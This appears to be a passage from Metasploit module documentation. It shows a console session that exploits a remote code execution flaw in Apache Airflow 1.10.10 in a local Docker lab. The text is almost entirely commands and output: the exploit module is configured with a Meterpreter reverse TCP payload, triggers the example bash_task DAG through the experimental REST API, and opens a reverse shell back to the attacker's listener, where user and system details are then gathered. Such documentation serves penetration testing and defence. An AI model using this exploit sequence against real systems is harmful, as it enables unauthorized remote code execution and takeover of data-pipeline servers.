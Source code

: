 ### Apache Airflow 1.10.10 Installed with Docker on Kali Linux 6.3.0

* Using default TARGET 0 - Unix Command

```rb
msf6 > use exploit/multi/http/apache_airflow_dag_rce
[*] Using configured payload cmd/unix/python/meterpreter_reverse_tcp
msf6 exploit(multi/http/apache_airflow_dag_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/apache_airflow_dag_rce) > set LHOST eth0
LHOST => eth0
msf6 exploit(multi/http/apache_airflow_dag_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response at: http://127.0.0.1:8080/admin/airflow/login
[+] Target is running Apache Airflow.
[*] Checking Apache Airflow version...
[+] Target is running Apache Airflow Version 1.10.10.
[+] The target appears to be vulnerable. However, extra checks are still required to make sure the example DAG is loaded, running, and executable.
[*] Checking if Airflow Experimental REST API is accessible at: http://127.0.0.1:8080/api/experimental/test
[+] Airflow Experimental REST API is accessible.
[*] Checking for vulnerability of 'example_trigger_target_dag.bash_task'...
[+] The 'example_trigger_target_dag.bash_task' is vulnerable.
[*] Checking if 'example_trigger_target_dag.bash_task' is enabled...
[+] The 'example_trigger_target_dag.bash_task' is enabled.
[*] Creating new DAG...
[+] Successfully created DAG: Created <DagRun example_trigger_target_dag @ 2023-08-10 05:33:09+00:00: manual__2023-08-10T05:33:09+00:00, externally triggered: True>
[*] Waiting for Scheduler to run the DAG. This might take a while...
[!] If the Bash task is never queued, then the Scheduler might not be running.
[!] Bash task is not yet queued...
[!] Bash task is not yet queued...
[!] Bash task is not yet queued...
[*] Bash task is queued...
[*] Bash task is queued...
[*] Meterpreter session 1 opened (192.168.245.128:4444 -> 172.18.0.2:34048) at 2023-08-10 12:04:11 +0630
[+] Bash task is running. Expect a session if executed successfully.

meterpreter > getuid
Server username: airflow
meterpreter > sysinfo
Computer        : 6e96596b60f7
OS              : Linux 6.3.0-kali1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.3.7-1kali1 (2023-06-29)
Architecture    : x64
System Language : C
Meterpreter     : python/linux
meterpreter >
```

